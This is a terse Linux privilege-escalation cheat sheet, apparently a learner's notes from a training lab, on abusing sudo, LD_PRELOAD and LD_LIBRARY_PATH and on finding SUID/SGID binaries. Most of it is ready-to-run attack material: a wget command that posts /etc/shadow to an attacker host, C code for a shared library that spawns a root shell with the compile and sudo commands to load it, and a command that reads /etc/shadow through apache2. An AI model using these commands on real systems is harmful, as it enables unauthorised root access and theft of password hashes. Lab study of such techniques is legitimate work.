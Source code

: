 ## Sudo 
### Sudo -flags
#### sudo -l
```
sudo -l -l # extra -l to check without password prompting
sudo /usr/bin/wget --post-file=/etc/shadow http//attackbox:port # Sudo -l but no password NO problem!
```
#### sudo -u to abuse file permission to call sudo through unsafe variable input, handling
sudo -u username unsafefileofusername # somehow pass /bin/bash as paramtres

#### Shell escaping, abusing intended functionality
**If find more I'll add more**  
```
sudo apache2 -f /etc/shadow
```

## Sudo LD_PRELOAD  
#### if LD_PRELOAD appears in output
create .c -> compile  
gcc ```gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles); ```  
This:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

This set the LD_PRELOAD to the path of a shared object, which will be loaded before any other library (including C runtime, libc.so  
```
sudo LD_PRELOAD=/tmp/x.so [/some/bin/or/prog]
```
##### Tiberius Room versions/additions: 
```-nostartfiles``` >Do not use the standard system startup files when linking.
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c 
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
##### Also
```
ldd /usr/sbin/apache2 # find shared libraries
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
````
## SUID/SGID
### Find suid/sgid bins
Exploit-DB, Google, and GitHub  
GTFOBINs  
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -type f -perm -u=s -exec -ls -ldb {} \; 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
```

````